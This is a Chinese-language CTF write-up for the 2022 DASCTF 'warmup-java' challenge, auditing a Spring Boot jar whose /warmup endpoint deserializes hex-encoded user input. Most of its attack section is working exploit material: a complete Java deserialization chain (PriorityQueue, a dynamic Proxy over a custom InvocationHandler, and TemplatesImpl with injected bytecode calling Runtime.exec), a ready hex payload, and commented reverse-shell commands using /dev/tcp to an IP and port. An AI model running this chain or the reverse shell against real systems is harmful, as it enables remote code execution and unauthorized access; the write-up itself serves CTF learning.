






题目链接：[BUUCTF](https://buuoj.cn/challenges#[2022DASCTF%20Apr%20X%20FATE%20%E9%98%B2%E7%96%AB%E6%8C%91%E6%88%98%E8%B5%9B]warmup-java)

这题我是没有提交flag的，因为手头暂时没有vps，也不想买vps，本篇内容最终将以本地Linux为例运行该题目并getshell。

直接把题目中的jar包下载下来即可，这就是一个springboot项目。



## 代码分析

这道题就是纯代码审计的题目了。

分析一下这几个文件：

```bash
com.example.warmup
├── IndexController				# 处理/warmup?data请求
├── MyInvocationHandler			# InvocationHandler实现类
├── Utils						# 工具类，主要功能是将对象转为16进制字符串，还有把16进制字符串转回byte[]
└── WarmupApplication			# Springboot项目启动类
```

然后逐一分析一下对应的类：

### IndexController

```java
@Controller
public class IndexController {
    public IndexController() {
    }

    /**
    * 这里就只接收一个请求，只需要关心data参数
      Model是org.springframework.ui.Model，这个不需要用户输入，由springboot框架进行参数的填充
    */
    
    @RequestMapping({"/warmup"})
    public String greeting(@RequestParam(name = "data",required = true) String data, Model model) throws Exception {
        // 把data从16进制字符串转为byte[]数组
        byte[] b = Utils.hexStringToBytes(data);
        // 通过字节数组输入流把字节数组转为流
        InputStream inputStream = new ByteArrayInputStream(b);
        // 通过ObjectInputStream进行反序列化
        ObjectInputStream objectInputStream = new ObjectInputStream(inputStream);
        objectInputStream.readObject();
        return "index";
    }
}

```

从IndexController中就能看出来，能让我们利用的接口其实就这一个，那这个其实就是反序列化链了，只是要把恶意构造的反序列化对象变成一个16进制字符串，然后传给这个接口就行了。OK，先接着分析代码，等会儿再看有没有可以利用的攻击链。

### MyInvocationHandler

代码如下

```java
// 动态代理接口实现类
public class MyInvocationHandler implements InvocationHandler, Serializable {
    // 这里存储了一个Class对象
    private Class type;
    public MyInvocationHandler() {
    }
    // 动态代理的Invoke方法，这里有一个重要的逻辑
    // 就是参数中的Method在方法中并没有真的调用，反而方法中重新获取了Class type的所有方法
    // 然后依次调用了Class type的所有方法，所以这个动态代理非常非常可疑
    // 很有可能就是让我们直接来利用的
    public Object invoke(Object proxy, Method method, Object[] args) throws Throwable {
        // 这里的大概意思是遍历Class中的所有的方法，然后都调用一下
        Method[] methods = this.type.getDeclaredMethods();
        Method[] var5 = methods;
        int var6 = methods.length;
        for(int var7 = 0; var7 < var6; ++var7) {
            Method xmethod = var5[var7];
            xmethod.invoke(args[0]);
        }
        return null;
    }
}
```

OK，这里的逻辑其实就是一个动态代理，动态代理在CC1链的时候是学过的。

如果你还不是很熟悉，可参考这个：[静态代理 + Proxy动态代理](./A%20-%20JAVA基础/JAVA动态代理&静态代理/main.md)

### Utils

```java
public class Utils {
    public Utils() {
    }
	// 字节数组转String字符串
    public static String bytesTohexString(byte[] bytes) {
        if (bytes == null) {
            return null;
        } else {
            StringBuilder ret = new StringBuilder(2 * bytes.length);

            for(int i = 0; i < bytes.length; ++i) {
                int b = 15 & bytes[i] >> 4;
                ret.append("0123456789abcdef".charAt(b));
                b = 15 & bytes[i];
                ret.append("0123456789abcdef".charAt(b));
            }

            return ret.toString();
        }
    }
	// 字符转数字，其实具体逻辑都不用太关心（就是0-9a-fA-F的字符求int值）
    static int hexCharToInt(char c) {
        if (c >= '0' && c <= '9') {
            return c - 48;
        } else if (c >= 'A' && c <= 'F') {
            return c - 65 + 10;
        } else if (c >= 'a' && c <= 'f') {
            return c - 97 + 10;
        } else {
            throw new RuntimeException("invalid hex char '" + c + "'");
        }
    }
	// 16进制字符串转字节数组
    public static byte[] hexStringToBytes(String s) {
        if (s == null) {
            return null;
        } else {
            int sz = s.length();
            byte[] ret = new byte[sz / 2];

            for(int i = 0; i < sz; i += 2) {
                ret[i / 2] = (byte)(hexCharToInt(s.charAt(i)) << 4 | hexCharToInt(s.charAt(i + 1)));
            }

            return ret;
        }
    }
	// Object对象转16进制字符串
    public static String objectToHexString(Object obj) throws Exception {
        ByteArrayOutputStream bos = new ByteArrayOutputStream();
        ObjectOutputStream out = null;
        out = new ObjectOutputStream(bos);
        out.writeObject(obj);
        out.flush();
        byte[] bytes = bos.toByteArray();
        bos.close();
        String hex = bytesTohexString(bytes);
        return hex;
    }
}
```

这个类其实不用很关注，你不是Developer，也不需要学一些Utils具体是怎么写的，只需要大概知道这个Util中有对象和字符串互相转换的方法即可。

### WarmupApplication

代码如下（其实就是Springboot项目启动类，这个类完全不用看都行

```java
@SpringBootApplication
public class WarmupApplication {
    public WarmupApplication() {
    }

    public static void main(String[] args) {
        SpringApplication.run(WarmupApplication.class, args);
    }
}
```

### 总结分析

现在大致已经可以得出这道题的目标了，就是打反序列化漏洞，通过`/warmup`这个处理类触发发序列化攻击链即可。

通过上述的代码分析，想打反序列化攻击链的话就两个问题了。

* 用什么分序列化链（需要排查lib包中有没有可以直接利用的链，比如CC、CB这样的，那就爽了
* 把要序列化的类通过Util转换成对应的16进制字符串

有了上述两条，直接把16进制字符串发送给`/warmup`接口即可。

### 分析lib(找攻击链)

程序中的这些依赖jar包看起来其实都是版本比较高的，而且也没有直接能产生序列化漏洞的



### 原生攻击链

因为lib中没有可以直接利用的jar包，加上这个程序里边提供了一个InvocationHandler的实现类，所以极大可能是需要用到这个动态代理类。可以考虑尝试一下JDK原生的攻击链（PriorityQueue + Comparator + Proxy + TemplatesImpl

直接上代码了

```java
package ctfs.warmupctf.warmupjava;

import com.example.warmup.MyInvocationHandler;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import javassist.ClassPool;
import javassist.CtClass;

import javax.xml.transform.Templates;
import java.io.*;
import java.lang.reflect.Field;
import java.lang.reflect.Method;
import java.lang.reflect.Proxy;
import java.util.Comparator;
import java.util.PriorityQueue;

public class Writeup {
    static String serialFileName = "warmup-java.ser";
    public static void main(String[] args) throws Exception {
        MyInvocationHandler myInvocationHandler = new MyInvocationHandler();
        Field typeFiled = MyInvocationHandler.class.getDeclaredField("type");
        typeFiled.setAccessible(true);
        typeFiled.set(myInvocationHandler, Templates.class);

        // 创建动态代理对象，代理的对象是一个Comparator
        Comparator proxy = (Comparator) Proxy.newProxyInstance(
                MyInvocationHandler.class.getClassLoader(),
                new Class[]{Comparator.class},
                myInvocationHandler
        );
        //初始化属性comparator为proxy类
        PriorityQueue priorityQueue = new PriorityQueue(2);
        priorityQueue.add(1);
        priorityQueue.add(1);
        // 创建TemplatesImpl对象
        TemplatesImpl templates = genTemplates();
        // 把Object[]数组塞到queue中
        Object[] queue = {templates,1};
        Field queueField = priorityQueue.getClass().getDeclaredField("queue");
        queueField.setAccessible(true);
        queueField.set(priorityQueue, queue);

        // 指定priorityQueue的比较器为proxy动态代理对象
        // 当调用proxy的compare方法时将会调用到Templates接口中的getOutputProperties或newTransformer方法
        Field comparatorField = priorityQueue.getClass().getDeclaredField("comparator");
        comparatorField.setAccessible(true);
        comparatorField.set(priorityQueue, proxy);

        FileOutputStream ops = new FileOutputStream(serialFileName);
        ObjectOutputStream oos = new ObjectOutputStream(ops);
        oos.writeObject(priorityQueue);
        oos.flush();
        oos.close();
		// 本地反序列化验证攻击链代码的可行性
        // verify();
        String s = objectToHexString(priorityQueue);
        System.out.println(s);
    }
	// 从ysoserial中直接粘过来的代码，用来生成TemplatesImpl对象，其中payload为calc弹出计算器
    public static TemplatesImpl genTemplates() throws Exception{
        // bash -c {echo,bash -i >& /dev/tcp/192.168.2.234/4444 0>&1}|{base64,-d}|{bash,-i}
        // bash -c {echo,<base64反弹shell>}|{base64,-d}|{bash,-i}
        // String shellcode = "bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjIuMjM0LzQ0NDQgMD4mMQ==}|{base64,-d}|{bash,-i}";
        String shellcode = "calc";
        String executeCode = "Runtime.getRuntime().exec(\"" + shellcode + "\");";
        ClassPool pool = ClassPool.getDefault();
        CtClass evil = pool.makeClass("ysoserial.Evil");
        // run command in static initializer
        // TODO: could also do fun things like injecting a pure-java rev/bind-shell to bypass naive protections
        evil.makeClassInitializer().insertAfter(executeCode);
        // sortarandom name to allow repeated exploitation (watch out for PermGen exhaustion)
        evil.setName("ysoserial.Pwner" + System.nanoTime());
        CtClass superC = pool.get(AbstractTranslet.class.getName());
        evil.setSuperclass(superC);

        final byte[] classBytes = evil.toBytecode();
        byte[][] trueclassbyte = new byte[][]{classBytes};

        Class<TemplatesImpl> templatesClass = TemplatesImpl.class;
        TemplatesImpl templates = TemplatesImpl.class.newInstance();
        Field bytecodes = templatesClass.getDeclaredField("_bytecodes");
        bytecodes.setAccessible(true);
        bytecodes.set(templates, trueclassbyte);

        Field name = templatesClass.getDeclaredField("_name");
        name.setAccessible(true);
        name.set(templates, "Pwnr");

        Field tfactory = templatesClass.getDeclaredField("_tfactory");
        tfactory.setAccessible(true);
        tfactory.set(templates, new TransformerFactoryImpl());

        return templates;
    }

	// 直接从原有Utils工具类中粘过来的代码
    public static String bytesTohexString(byte[] bytes) {
        if (bytes == null) {
            return null;
        } else {
            StringBuilder ret = new StringBuilder(2 * bytes.length);

            for(int i = 0; i < bytes.length; ++i) {
                int b = 15 & bytes[i] >> 4;
                ret.append("0123456789abcdef".charAt(b));
                b = 15 & bytes[i];
                ret.append("0123456789abcdef".charAt(b));
            }

            return ret.toString();
        }
    }
	// 直接从原有Utils工具类中粘过来的代码
    public static String objectToHexString(Object obj) throws Exception {
        ByteArrayOutputStream bos = new ByteArrayOutputStream();
        ObjectOutputStream out = null;
        out = new ObjectOutputStream(bos);
        out.writeObject(obj);
        out.flush();
        byte[] bytes = bos.toByteArray();
        bos.close();
        String hex = bytesTohexString(bytes);
        return hex;
    }

    public static void verify() throws Exception {
        // 本地模拟反序列化
        FileInputStream fis = new FileInputStream(serialFileName);
        ObjectInputStream ois = new ObjectInputStream(fis);
        Object ignore = (Object) ois.readObject();
    }
}
```

因为这里用到了MyInvocationHandler，所以记得要把MyInvocationHandler的代码copy出来。

```java
package com.example.warmup;

import java.io.Serializable;
import java.lang.reflect.InvocationHandler;
import java.lang.reflect.Method;

public class MyInvocationHandler implements InvocationHandler, Serializable {
    private Class type;

    public MyInvocationHandler() {
    }

    public Object invoke(Object proxy, Method method, Object[] args) throws Throwable {
        Method[] methods = this.type.getDeclaredMethods();
        Method[] var5 = methods;
        int var6 = methods.length;

        for(int var7 = 0; var7 < var6; ++var7) {
            Method xmethod = var5[var7];
            xmethod.invoke(args[0]);
        }

        return null;
    }
}
```

在这里就不太多解释该代码了，到时候在序列化篇里加更一篇原生攻击链吧，单开一章写的更详细。

运行该代码将会生成一串字符串，如下。然后直接拿来作为data参数即可。

```
aced0005737200176a6176612e7574696c2e5072696f72697479517565756594da30b4fb3f82b103000249000473697a654c000a636f6d70617261746f727400164c6a6176612f7574696c2f436f6d70617261746f723b787000000002737d0000000100146a6176612e7574696c2e436f6d70617261746f72787200176a6176612e6c616e672e7265666c6563742e50726f7879e127da20cc1043cb0200014c0001687400254c6a6176612f6c616e672f7265666c6563742f496e766f636174696f6e48616e646c65723b787073720026636f6d2e6578616d706c652e7761726d75702e4d79496e766f636174696f6e48616e646c6572fa4d6977df0943d80200014c0004747970657400114c6a6176612f6c616e672f436c6173733b78707672001d6a617661782e786d6c2e7472616e73666f726d2e54656d706c61746573000000000000000000000078707704000000037372003a636f6d2e73756e2e6f72672e6170616368652e78616c616e2e696e7465726e616c2e78736c74632e747261782e54656d706c61746573496d706c09574fc16eacab3303000649000d5f696e64656e744e756d62657249000e5f7472616e736c6574496e6465785b000a5f62797465636f6465737400035b5b425b00065f636c6173737400125b4c6a6176612f6c616e672f436c6173733b4c00055f6e616d657400124c6a6176612f6c616e672f537472696e673b4c00115f6f757470757450726f706572746965737400164c6a6176612f7574696c2f50726f706572746965733b787000000000ffffffff757200035b5b424bfd19156767db37020000787000000001757200025b42acf317f8060854e00200007870000001c9cafebabe00000031001c01000e79736f73657269616c2f4576696c0700160100106a6176612f6c616e672f4f626a65637407000301000a536f7572636546696c650100094576696c2e6a6176610100083c636c696e69743e010003282956010004436f64650100116a6176612f6c616e672f52756e74696d6507000a01000a67657452756e74696d6501001528294c6a6176612f6c616e672f52756e74696d653b0c000c000d0a000b000e01000463616c6308001001000465786563010027284c6a6176612f6c616e672f537472696e673b294c6a6176612f6c616e672f50726f636573733b0c001200130a000b001401001f79736f73657269616c2f50776e657231303031303936333639393637323030010040636f6d2f73756e2f6f72672f6170616368652f78616c616e2f696e7465726e616c2f78736c74632f72756e74696d652f41627374726163745472616e736c65740700170100063c696e69743e0c001900080a0018001a002100020018000000000002000800070008000100090000001b000300020000000fa70003014cb8000f1211b6001557b100000000000100190008000100090000001100010001000000052ab7001bb100000000000100050000000200067074000450776e727077010078737200116a6176612e6c616e672e496e746567657212e2a0a4f781873802000149000576616c7565787200106a6176612e6c616e672e4e756d62657286ac951d0b94e08b02000078700000000178
```



然后本地尝试打一下。

## 本地运行项目

我直接把jar包放到linux中运行了，使用的JDK版本是 8u202




## exp效果

因为我没有vps，所以没法反弹shell出来，也不想买vps了，等到时候攒一点题目再买vps，然后都提交了吧。

所以这里就本地测试了，在本地开启一个本地监听，然后访问对应的URL路径使用/warmup触发反弹shell



反弹shell成功

